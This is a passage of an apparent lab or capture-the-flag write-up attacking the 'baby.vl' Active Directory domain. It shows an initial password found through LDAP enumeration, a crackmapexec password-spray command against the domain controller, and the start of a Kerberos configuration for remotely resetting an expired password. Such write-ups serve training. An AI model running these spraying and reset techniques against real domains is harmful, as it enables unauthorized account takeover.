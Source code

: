```bash
# Caroline Robinson, it, baby.vl
dn: CN=Caroline Robinson,OU=it,DC=baby,DC=vl
sAMAccountName: Caroline.Robinson
```
After the ldapsearch query, all found users were appended into a users.txt wordlist. One user stands out with a description containing a password:
```bash
dn: CN=Teresa Bell,OU=it,DC=baby,DC=vl
description: Set initial password to BabyStart123!
sAMAccountName: Teresa.Bell
```

## Password spraying the domain controller
During LDAP Enumeration, Teresa.Bell was found to have a password in the user description, claiming that it is an initial password. To test if this password is correct and if other user's still have the initial password set we can password spray the DC with crackmapexec:
```bash
crackmapexec smb BabyDC.baby.vl -u users.txt -p "BabyStart123\!" 
```
![pwdSpray](../assets/posts/baby/pwdSpray.png)
Caroline.Robinson appeared to still be using the password, however crackmapexec presented an error 'STATUS_PASSWORD_MUST_CHANGE'


## Resetting the password with kinit
After some research, I stumbled upon a blog post which you can find [here](https://www.n00py.io/2021/09/resetting-expired-passwords-remotely/), describing how AD accounts can have their passwords reset remotely using kerberos.

To start we have to edit the /etc/krb5.conf file:
```bash
[libdefaults]
        default_realm = BABY.VL
        dns_lookup_kdc = false
        dns_lookup_realm = false
<SNIP>

[realms]
        BABY.VL = {
            kdc = 10.10.106.67
            admin_server = 10.10.106.67
        }
<SNIP>

[domain_realm]
        .baby.vl = BABY.VL
```
